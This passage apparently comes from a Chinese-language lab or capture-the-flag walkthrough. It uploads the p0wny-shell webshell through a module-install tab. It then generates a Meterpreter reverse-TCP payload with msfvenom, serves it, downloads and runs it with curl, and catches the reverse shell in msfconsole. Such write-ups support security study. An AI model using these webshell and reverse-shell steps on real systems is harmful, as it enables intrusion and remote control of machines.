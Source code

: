 在 `options` 选项卡，可以直接安装模块，也就是可以直接上传 webshell

![img](img/image_20240415-231519.png)

使用 [p0wny-shell - Github](https://github.com/flozz/p0wny-shell) 大马进行打包为 zip 文件上传即可

需要注意的是，上传的文件会定时进行删除，所以需要尽快进行 shell 反弹

生成载荷，并开启 http 投递

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=9999 -f exe > 10.10.16.8.exe
python3 -m httpserver 8080
```

在大马的窗口中执行

```shell
curl http://10.10.16.8:8080/10.10.16.8.exe -o 10.10.16.8.exe
10.10.16.8.exe
```

本地启动监听

```shell
┌──(randark ㉿ kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > set lhost 10.10.16.8
lhost => 10.10.16.8
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:9999
```
